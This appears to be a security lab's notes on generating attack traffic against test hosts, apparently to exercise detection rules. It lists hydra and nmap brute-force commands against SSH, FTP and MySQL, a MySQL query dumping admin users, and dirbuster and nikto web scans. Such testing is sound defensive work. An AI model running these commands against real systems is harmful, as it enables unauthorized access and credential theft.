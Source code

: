 


# GENERATE TRAFFIC FOR DIFFERENTS PROTOCOLS

## GENERATE TRAFFIC - SSH bruteforce (A310)
```
nmap -p 22 --script ssh-brute poly-db
hydra -t 1 -V -f -I -l poly -P /usr/share/wordlists/rockyou.txt poly-db ssh
```

## GENERATE TRAFFIC - FTP bruteforce
```
# -t : Number of parralel tasks
hydra -t 1 -V -f -I -l poly -P /usr/share/wordlists/rockyou.txt poly-db ftp
```

## GENERATE TRAFFIC - MYSQL bruteforce
```
# -t : Number of parralel tasks
hydra -t 1 -V -f -I -l poly -P /usr/share/wordlists/rockyou.txt poly-db mysql
```

## GENERATE TRAFFIC - MYSQL Request (A200, A201)
```
->->->->->-> poly@poly-db:/var/log/mysql$ sudo mysql -u root

	Welcome to the MySQL monitor.  Commands end with ; or \g.
	Your MySQL connection id is 9
	Server version: 8.0.33-0ubuntu0.22.04.1 (Ubuntu)

	Copyright (c) 2000, 2023, Oracle and/or its affiliates.

	Oracle is a registered trademark of Oracle Corporation and/or its
	affiliates. Other names may be trademarks of their respective
	owners.

	Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

->->->->->-> 
show databases;
use dbUtilisateurs;
show tables;
select * from utilisateurs where admin = 1;

```

## GENERATE TRAFFIC - Web directory bruteforce (A101, A102)
```
dirbuster -u http://poly-apache
nikto -h poly-apache
```
